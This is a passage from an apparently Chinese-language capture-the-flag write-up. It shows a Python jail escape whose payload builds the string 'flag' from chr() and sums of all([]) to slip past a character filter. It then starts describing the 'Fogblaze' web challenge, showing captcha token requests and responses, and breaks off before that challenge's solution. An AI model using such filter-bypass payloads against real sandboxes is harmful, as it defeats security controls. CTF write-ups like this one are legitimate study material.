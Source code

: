 接下來，我們要想想取得字串的替代方案。

再跑一次 script 看一下我們能用哪些東西。

```python!
In [24]: import builtins
exclude_chars = set("gdvxfiyundmpnetkb")
builtins_not_containing_chars = []
for name in dir(builtins):
     if not any(char in name for char in exclude_chars):
        builtins_not_containing_chars.append(name)
print("\nBuiltins not containing specified chars:")
print(builtins_not_containing_chars)
"""
['EOFError', 'IOError', 'OSError', '__IPYTHON__', 'all', 'chr', 'hash', 'locals']
"""
```

all 還能用，那我們就可以透過 `all([])` 來拿 True，可喜可賀。

payload:

```python!
f = ('all([])+'*102).rstrip('+')
l = ('all([])+'*108).rstrip('+')
a = ('all([])+'*97).rstrip('+')
g = ('all([])+'*103).rstrip('+')
payload = f'locals()[chr({f})+chr({l})+chr({a})+chr({g})]'
print(payload)
```

## Web

### Fogblaze

一個黑箱題，有個自製的 stateless 的 captcha 系統，要存取 `/flag` 之前要先做完 75 個，在時間內手動確實做不太完XD

觀察一下他怎麼 captcha 的:

請求中會帶上當前的 captchaToken 跟對應的答案

```json!
{"captchaToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkMjYyNzM4Ny1lZWMyLTQ0ZmMtODkyYS05MmIxYzQwY2JkZGYiLCJyb3V0ZUlkIjoiLyIsImNoYWxsZW5nZUlkIjoiZjkxYTIzODk0YjE0NjEyZWQ5ODBlY2RmZTAzZTU1ZTgiLCJzb2x2ZWQiOjAsInRvdGFsIjoyLCJkb25lIjpmYWxzZSwiaWF0IjoxNzE4MDcyOTE1LCJleHAiOjE3MTgwNzI5NzV9.GkrUlDxLdRkH78Yd_vO7VBx_g6LKza-18pvE8Ktuuko","word":"JDCN"}
```

然後會回你答對題數跟下一題的圖片還有 captchaToken。


```json!
{
    "captchaToken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkMjYyNzM4Ny1lZWMyLTQ0ZmMtODkyYS05MmIxYzQwY2JkZGYiLCJyb3V0ZUlkIjoiLyIsImNoYWxsZW5nZUlkIjoiZjkxYTIzODk0YjE0NjEyZWQ5ODBlY2RmZTAzZTU1ZTgiLCJzb2x2ZWQiOjAsInRvdGFsIjoyLCJkb25lIjpmYWxzZSwiaWF0IjoxNzE4MDcyOTE1LCJleHAiOjE3MTgwNzI5NzV9.GkrUlDxLdRkH78Yd_vO7VBx_g6LKza-18pvE8Ktuuko",
    "image": "data:image/png;base64,iVBORw...",
    "solved": 0,
    "total": 2,
    "done": false
}
```

